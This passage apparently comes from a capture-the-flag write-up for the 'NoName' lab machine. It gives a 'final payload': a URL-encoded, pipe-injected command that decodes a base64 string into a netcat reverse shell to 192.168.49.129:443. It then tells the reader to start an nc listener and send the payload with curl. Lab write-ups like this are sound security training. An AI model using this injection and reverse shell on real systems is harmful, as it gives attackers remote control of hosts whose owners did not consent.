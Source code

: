 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/NoName/images/a21.png)

**Final payload:**
```bash
%7Cecho%20%22cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI%2BJjF8bmMgMTkyLjE2OC40OS4xMjkgNDQzID4vdG1wL2YK%22%20%7C%20base64%20-d%20%7C%20bash
```

3. Setup a `nc` listener and send the payload via `curl`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/NoName/images/a22.png)
